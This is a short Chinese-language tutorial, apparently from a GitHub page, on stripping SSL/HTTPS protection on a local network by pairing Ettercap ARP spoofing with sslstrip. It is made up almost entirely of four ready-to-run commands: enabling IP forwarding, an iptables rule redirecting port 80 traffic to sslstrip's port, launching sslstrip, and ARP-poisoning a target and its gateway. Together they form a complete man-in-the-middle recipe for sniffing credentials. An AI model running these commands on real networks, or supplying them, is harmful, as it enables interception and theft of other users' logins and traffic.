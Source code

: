 ## Ettercap结合sslstrip对ssl/https进行攻击  
Ettercap是一个非常强大的嗅探欺骗工具；在以往的ettercap的使用过程中，我们大多用来嗅探http，ftp，和一些加密比较简单的邮箱等的密码，
对于新型的ssl/https等的加密协议就显得不是太完美；这里我们使用一款专门针对ssl/https加密协议的工具配合Ettercap进行局域网嗅探欺骗：
sslstrip。

0x01、开启转发：
```bash
echo "1">/proc/sys/net/ipv4/ip_forward
```
0x02、iptables过滤数据包
```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```
0x03、监听转发端口
```bash
sslstrip -l 10000 
```
0x04、arp嗅探
```bash
ettercap -T -q -i eth0 -M arp:remote /目标地址/ /网关地址/
```

btw: [视频地址](http://v.youku.com/v_show/id_XNjUxMzQ2NzYw.html)